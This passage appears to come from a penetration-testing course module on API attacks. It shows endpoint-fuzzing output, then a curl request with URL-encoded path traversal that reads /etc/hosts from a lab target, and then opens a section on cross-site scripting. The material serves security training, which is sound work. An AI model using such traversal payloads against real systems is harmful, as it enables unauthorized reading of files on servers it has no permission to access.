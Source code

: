 ```shell
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

:: Progress: [40/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors
download                [Status: 200, Size: 71, Words: 5, Lines: 1]
:: Progress: [87/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors::
Progress: [174/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error::
Progress: [174/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::

```

It looks like `/api/download` is a valid API endpoint. Let us interact with it.

```shell
curl http://<TARGET IP>:3000/api/download
{"success":false,"error":"Input the filename via /download/<filename>"}

```

We need to specify a file, but we do not have any knowledge of stored files or their naming scheme. We can try mounting a Local File Inclusion (LFI) attack, though.

```shell
curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
127.0.0.1 localhost
127.0.1.1 nix01-websvc

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```

The API is indeed vulnerable to Local File Inclusion!


# Cross-Site Scripting (XSS)

* * *

Cross-Site Scripting (XSS) vulnerabilities affect web applications and APIs alike. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser and result in complete web application compromise if chained together with other vulnerabilities. Our [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/module/details/103) module covers XSS in detail.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target API and follow along.
